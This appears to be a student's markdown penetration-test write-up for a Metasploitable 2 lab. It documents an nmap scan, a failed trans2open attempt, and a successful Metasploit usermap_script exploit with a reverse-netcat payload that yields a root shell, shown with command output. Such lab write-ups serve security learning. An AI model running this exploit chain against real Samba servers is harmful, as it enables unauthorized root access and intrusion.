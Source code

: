 ## 🛡️ Penetration Test Report — Samba Exploitation (Metasploitable)
📄 Overview
This penetration test was conducted against a target machine running an outdated version of Samba, hosted on the local network. The goal was to identify vulnerabilities, attempt exploitation using Metasploit Framework, and gain shell access.
## 🧠 Target Information
| Item                 | Value            |
| -------------------- | ---------------- |
| **Target IP**        | `192.168.1.184`  |
| **Attacker IP**      | `192.168.1.182`  |
| **Operating System** | Metasploitable 2 |
| **Samba Version**    | `3.0.20-Debian`  |
## 🧪 Enumeration Phase
## 🔍 Service Detection
We scanned the target and discovered an open SMB port.

* nmap -sV -p 139,445 192.168.1.184

Result:
* Samba 3.0.20 was detected on port 139 — known to be vulnerable to multiple exploits.

![Nmap](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(197).png)
## 💥 Exploitation Phase
## ⚙️ Initial Exploit Attempt (Failed)
* Module used:

exploit/linux/samba/trans2open

* Payload:

cmd/unix/reverse_netcat

* Result: ❌

Exploit failed: cmd/unix/reverse_netcat is not a compatible payload.

![Netcat](Screenshots/Screenshot%20(198).png)

## ⚙️ Successful Exploitation 🎯
* Module used:


exploit/multi/samba/usermap_script

* Payload:


cmd/unix/reverse_netcat

Initial LPORT 4444 failed due to port conflict.

![Port4444](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(199).png)

* Changed to:

set LPORT 5555
* Result: ✅

Command shell session 1 opened.

![5555Port](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(200).png)

## 🖥️ Post-Exploitation
## 🔐 Shell Access Verified
* Executed:

whoami
id
uname -a
* Result:

root
uid=0(root) gid=0(root)

Linux metasploitable 2.6.24-16-server

![RootTheKing](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(201).png)

## 📝 Conclusion
* ✅ Success: Root shell access was achieved via the usermap_script Samba exploit.
* ❌ Failures: trans2open exploit failed due to incompatible payload or incorrect target match.

## 📎 Notes
* Metasploitable is a known vulnerable machine and used for legal testing.

* Be sure to stop listeners after your session or change ports to avoid conflicts.

* Always validate your target's version and exploit compatibility.

Reported By: M𓄂𓆃M

